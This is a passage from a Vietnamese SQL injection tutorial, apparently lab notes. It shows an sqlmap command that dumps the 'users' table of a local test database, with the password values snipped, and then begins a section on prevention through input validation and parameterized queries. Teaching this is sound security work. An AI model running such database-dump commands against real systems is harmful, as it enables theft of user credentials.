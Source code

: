 #### Bước 4: Dump Dữ Liệu Của Bảng **users**
Tiếp theo, chúng ta sẽ dump (trích xuất) toàn bộ dữ liệu của bảng `users`:

```bash
python .\sqlmap.py -u http://localhost/api/check-username.php?u=maria -D amdonuts -T users --dump
```

**Kết quả:**
SQLMap sẽ trích xuất dữ liệu từ bảng `users` và in ra các bản ghi trong bảng này:

```
Database: amdonuts
Table: users
[3 entries]
+----------------------------------+----------+
| password                          | username |
+----------------------------------+----------+
| ...SNIP...                        | maria    |
| ...SNIP...                        | admin    |
| ...SNIP...                        | bmdyy    |
+----------------------------------+----------+
```

Dữ liệu bảng `users` đã được dump thành công. Nếu các giá trị trong cột `password` là hash, SQLMap sẽ hỏi bạn có muốn lưu các giá trị hash để giải mã sau không. Trong trường hợp này, chúng ta chọn không giải mã (N).

**Lưu Ý:**
Kết quả dump dữ liệu sẽ được lưu trong một file CSV trên máy tính của bạn tại đường dẫn sau:
```
'C:\Users\bill\AppData\Local\sqlmap\output\localhost\dump\amdonuts\users.csv'
```

---
15
### Ngăn Chặn Các Lỗ Hổng SQL Injection

SQL injection (SQLi) xảy ra khi lập trình viên tạo các truy vấn động mà không kiểm tra hoặc làm sạch đầu vào của người dùng đúng cách. Để ngăn chặn lỗ hổng SQLi, bạn cần chú trọng vào hai phương pháp chính: **Kiểm Tra và Làm Sạch Dữ Liệu Đầu Vào** và **Sử Dụng Truy Vấn Có Tham Số (Parameterized Queries)**.

---

### 1. Kiểm Tra và Làm Sạch Dữ Liệu Đầu Vào

SQL injection xảy ra khi dữ liệu từ người dùng được kết hợp trực tiếp vào trong truy vấn SQL mà không được kiểm tra hoặc làm sạch. Bạn (với tư cách là lập trình viên) nên luôn làm sạch dữ liệu đầu vào và nếu dữ liệu đó có một định dạng nhất định (ví dụ: email, số điện thoại), bạn nên kiểm tra tính hợp lệ của nó.

#### Cách Làm:
- **Xử lý tất cả đầu vào từ người dùng như thể chúng có thể chứa mã độc**.
- **Kiểm tra định dạng của dữ liệu đầu vào**: Đối với những đầu vào như email, số điện thoại, bạn nên kiểm tra định dạng của chúng để đảm bảo chúng hợp lệ trước khi đưa vào trong truy vấn.

---